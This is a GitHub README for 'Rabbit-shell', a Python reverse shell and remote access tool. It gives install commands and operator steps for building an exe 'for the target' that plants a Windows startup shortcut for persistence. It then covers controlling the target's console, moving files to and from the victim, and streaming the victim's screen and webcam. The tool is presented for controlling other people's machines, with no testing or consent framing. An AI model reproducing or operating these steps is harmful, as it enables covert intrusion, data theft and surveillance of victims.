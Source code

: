 ![license](https://img.shields.io/github/license/greedalbadi/rabbit-shell)
![Python](https://img.shields.io/badge/Python-3.9-blue)
# Rabbit-shell

###### Rabbit shell advanced reverse shell tool.

![tool](rabbit_shell\data\images\Capture.png)

##  Installation.



### By pip.
 
```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.



## steps.

> 1 - Install rabbit-shell tool.
>
> 2 - Generate your key using `--key` command.
>
> example: `rsb --key`
>
> 3 - run tool on your server using `--server` command along with your server **ip address** and **port** .
>
> example: `rsb --server -a 192.168.0.111 -p 9999`
>
> 4 - Generate exe for target using `--client` along with your server **ip address** and **port** .
>
> example: `rsb --client -a 192.168.0.111 -p 9999`
>
> 5 - now to start controlling target on your main device prefferred on windows run `--auth` command.
>
> example: `rsb --auth -a 192.168.0.111 -p 9999`
>
> - now when your target run your exe will it will be connected and you will can control your target.







# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key

###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key\insert key\show key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.





## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```





# stream



##### streaming will be done by wich client is sending frames to the server

##### so make sure that it's one client whom send's stream frames and stop other streams to be safe, after you'r done with the stream stop it using `>: stream:stop` .

### stream current client screen.

```bash
>: stream:screen
```



### stream current client webcam.

```bash
>: stream:cam
```



### stop stream

```bash
>: stream:stop
```

###### make sure you stop the stream when you want to start streaming another client.







## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
